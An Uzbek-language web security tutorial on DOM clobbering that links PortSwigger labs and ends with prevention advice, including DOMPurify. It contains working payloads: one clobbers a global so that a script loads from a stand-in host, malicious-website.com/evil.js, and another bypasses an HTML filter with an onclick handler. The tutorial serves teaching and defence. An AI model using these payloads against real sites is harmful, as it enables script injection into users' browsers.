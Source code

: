 # Dom clobbering

Biz bugungi bo'limda DOM clobbering nima ekanligi haqida, uning haqiqiy ta'siri qanday ekanligi va uning qanday oldini olish mumkinligi haqida gaplashamiz.

## <mark style="color:yellow;">DOM Clobbering nima ?</mark> <a href="#dom-clobbering-nima" id="dom-clobbering-nima"></a>

DOM clobbering bu sizga HTML ineksiya imkoniyati bilan DOMni manipulation qilish va web sahifaning JavaScript xatti harakatlariga ta'sir etishdir. DOM Clobbering qayerda XSS qilish imkoni bo'lmasa o'sha yerda foydali hisoblanadi, ammo siz faqatgina `id` va `name` attributlarinigina HTML da boshqarishingiz mumkin. Juda keng tarqalgan DOM clobbering shakli bu umuman boshqa elementni global o'zgaruvchi ustidan yozish imkonini berishidir, ya'ni web sayt uni xavfsiz bo'lmagan sharoitda ishlatishida hosil bo'ladi, masalan dynamic script URL yasash holatini keltirishimiz mumkin.

Clobbering atamasi obyektning global o'zgaruvchisi yoki xususiyatini "to'ldirayotganingiz"da va uning o'rniga DOM elementi yoki HTML to'plami bilan qayta yozishingizdan kelib chiqadi. Masalan, siz DOM obyektlaridan boshqa JavaScript obyektlarining ustiga yozish uchun foydalanishingiz va formaning haqiqiy `submit()` funksiyasiga xalaqit berish uchun `submit` kabi xavfli nomlardan foydalanishingiz mumkin.

## <mark style="color:yellow;">Qanday qilib DOM Clobberingni exploit qilish mumkin ?</mark> <a href="#qanday-qilib-dom-clobbering-ni-exploit-qilish-mumkin" id="qanday-qilib-dom-clobbering-ni-exploit-qilish-mumkin"></a>

JavaScript dasturchilari tomonidan ishlatiladigan keng tarqalgan pattern:

```javascript
var someObject = window.someObject || {};
```

Agar siz sahifadagi biror bir HTML ni nazorat qila olsangiz, unda siz `someObject` o'zgaruvchisini DOM node elementi bilan to'ldirishingiz mumkin, quyida kodni keltiramiz:

```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

Ushbu zaif koddan foydalanish uchun siz `someObject` havolasini element bilan yopish uchun quyidagi HTML kodni kiritishingiz mumkin:

```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```

Hozir biz kiritgan bir xil ID va bir xil DOM guruhi endi birlashadi va DOM kollektsiyasini hosil qiladi. DOM clobbering endi biz kiritgan DOM kollektsiyasi bilan uni `someObject` ni to'ldiradi. Tashqi skriptga ishora qiluvchi `someObject` obyektining `url` xususiyatini yopish uchun oxirgi elementda `name` atributidan foydalaniladi.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [XSSni yoqish uchun DOM clobberingdan foydalanish ≫](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
{% endhint %}

Yana bir keng tarqalgan usul `form`elementi bilan birga ishlatishdir, masalan DOM clobbering xususiyatlari uchun `input.` Masalan bu, `attributes` xususiyatini bloklash, uni o'z logikalarida ishlatadigan client-side filtrlarini chetlab o'tish imkonini beradi. Filtr `attributes` xususiyatini enumerate qilsada, u aslida hech qanday atributlarni olib tashlamaydi, chunki xususiyat DOM node elementi bilan o'ralgan. Natijada, siz odatda filtrlanadigan zararli atributlarni kiritishingiz mumkin bo'ladi. Masalan, quyidagi ineksiyani ko'rib chiqing:

```html
 <form onclick=alert(1)><input id=attributes>Click me
```

Bunday holda, client-side filtr DOMni kesib o'tadi va whitelistga kiritilgan`form` elementiga duch keladi. Odatda, filtr forma elementining `attributes`xususiyati orqali o‘tadi va blacklistga kiritilgan atributlarni olib tashlaydi. Biroq, `attributes` xususiyati `input` elementi bilan o'ralganligi sababli, filtr o'rniga `input` elementi orqali aylanadi. `input` elementi aniqlanmagan uzunlikka ega bo'lgani uchun filtrning for tsikli uchun shartlar (masalan, `i < element.attributes.length`) bajarilmaydi va filtr shunchaki keyingi elementga o'tadi. Buning natijasida `onclick` hodisasi filtr tomonidan butunlay e'tiborga olinmaydi, bu esa brauzerda `alert()` funksiyasini chaqirish imkonini beradi.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [HTML filtrlarini bypass qilish uchun DOM Clobbering atributlari ≫](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
{% endhint %}

## <mark style="color:yellow;">Qanday qilib DOM Clobberingni oldini olish mumkin ?</mark> <a href="#qanday-qilib-dom-clobberingni-oldini-olish-mumkin" id="qanday-qilib-dom-clobberingni-oldini-olish-mumkin"></a>

Oddiy so'zlar bilan aytganda, obyektlar yoki funktsiyalar siz kutganingizdek ekanligiga ishonch hosil qilish uchun tekshiruvlarni amalga oshirish orqali DOM-clobbing hujumlarining oldini olishingiz mumkin. Masalan, DOM node elementining atributlari xususiyati aslida `NamedNodeMap` namunasi ekanligini tekshirishingiz mumkin. Bu xususiyat yopilgan HTML elementi emas, balki atributlar xususiyati ekanligini ta'minlaydi.

Shuningdek, || mantiqiy OR operatori bilan birgalikda global oʻzgaruvchiga havola qiluvchi kod yozmasligingiz kerak, chunki bu DOM clobbering zaifliklariga olib kelishi mumkin.

Xulosa qilib aytganda:

* Har bir obyektni DOM node elementi emasligini tekshiring
* Yomon kod patternlaridan foydalanmang. Global o'zgaruvchilar ishlatayotganda OR operatoridan iloji boricha foydalanmang
* Yaxshi ishlab chiqilgan kutubxonadan foydalaning misol uchun [<mark style="color:yellow;">**`DOMPurify`**</mark>](https://github.com/cure53/DOMPurify) kutubxonasidan, u DOM clobbering xujumini oldini olishga yordam beradi.
